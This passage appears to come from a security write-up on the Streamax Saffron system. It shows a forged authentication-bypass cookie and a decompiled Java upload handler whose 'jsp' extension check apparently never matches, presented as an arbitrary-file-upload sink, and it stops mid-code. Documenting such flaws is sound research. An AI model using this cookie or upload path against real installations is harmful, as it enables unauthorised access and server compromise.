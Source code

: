 ```
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
```
<img width="525" height="475" alt="image" src="https://github.com/user-attachments/assets/e6a4be9c-d171-4426-8af6-66be581cb523" />

At this point, we have bypassed the authentication of this system.

### Arbitrary File Upload Vulnerability Exploitation

We found a sink point in `streamax.saffron.controller.deviceupgrade.FileManageController#uploadFile`:
```java
@RequestMapping(
        params = {"Action=Upload"}
    )
    @ResponseBody
    public Object uploadFile(HttpServletRequest request, HttpServletResponse response) {
        int code = 200;
        Map<String, Object> result = new HashMap();
        String fileName = "";
        MultipartFile multipartFile = null;

        Map var12;
        try {
            String tempName = System.currentTimeMillis() + "" + (new Random()).nextInt(100);
            String tempDirPath = request.getSession().getServletContext().getRealPath(this.TEMPPATH);
            if (!CommonFunction.isDirExist(tempDirPath)) {
                CommonFunction.createDir(tempDirPath);
            }

            MultipartHttpServletRequest mRequest = (MultipartHttpServletRequest)request;
            multipartFile = mRequest.getFile("file");
            String realName = multipartFile.getOriginalFilename();
            String suffix = "";
            if (realName.lastIndexOf(".") > 0) {
                suffix = realName.substring(realName.lastIndexOf("."));
            }

            if (!"jsp".equals(suffix)) {
                String filePath = tempDirPath + File.separator + tempName + suffix;
                File file = new File(filePath);
                FileUtils.copyInputStreamToFile(multipartFile.getInputStream(), file);
                if (CommonFunction.isExistFile(filePath)) {
                    fileName = file.getName();
                    result = this.service.parseFile(file);
                }

                ((Map)result).put("FileName", fileName);
                return CommonFunction.createResultMap(code, (Map)result);
            }

            var12 = CommonFunction.createResultMap(202, (Map)result);
        } catch (Exception var23) {
            Exception e = var23;
            code = 202;
            CommonFunction.writeExceptionLog("FileManage", e);
            return CommonFunction.createResultMap(code, (Map)result);
        } finally {
            try {
                if (multipartFile != null && multipartFile.getInputStream() != null) {
                    multipartFile.getInputStream().close();
                }
            } catch (Exception var22) {
```